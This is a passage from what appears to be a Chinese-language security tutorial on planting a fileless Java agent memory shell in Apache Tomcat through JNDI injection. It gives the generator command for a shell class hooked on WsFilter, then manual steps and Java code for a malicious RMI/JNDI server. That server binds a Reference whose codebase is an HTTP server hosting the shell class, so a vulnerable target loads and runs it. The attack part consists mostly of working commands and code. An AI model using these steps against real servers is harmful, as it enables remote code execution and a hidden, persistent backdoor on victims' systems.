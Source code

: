```plain
java -jar .\FilelessAgentMemshellGenerator.jar -b 64 -c "org.apache.tomcat.websocket.server.WsFilter" -i false -o "Windows" -p .\WsFilter.class -t false
```

弹出警告，但还是成功生成了所需的类文件[![](assets/1701678277-2b5791e9a5503cc9c6fcda7f8f780e65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130224345-dd51c44e-8f8e-1.png)

在工具同目录的 out 文件夹下可找到`AgentMemShell.class`

### 配置 JNDI 服务器

**JNDI 恶意服务器可以用 ysomap 等工具快速部署**，这里简单讲讲手工步骤

首先需要启动一个**RMI 服务或者 LDAP 服务**，随便绑定一个远程对象上去

接着使用`python -m http.server`在此目录开启一个 Http 服务

将引用的地址设置为 Http 服务的 URL，如`http://localhost:8000/`，设置类名和工厂名

`Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");`

再将引用重绑定给 JNDI 服务

`InitialContext initialContext = new InitialContext();`

`initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);`

**最后启动 JNDI 服务**

```plain
import javax.naming.InitialContext;
import javax.naming.Reference;

public class JNDIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");
        initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);
    }
}
```
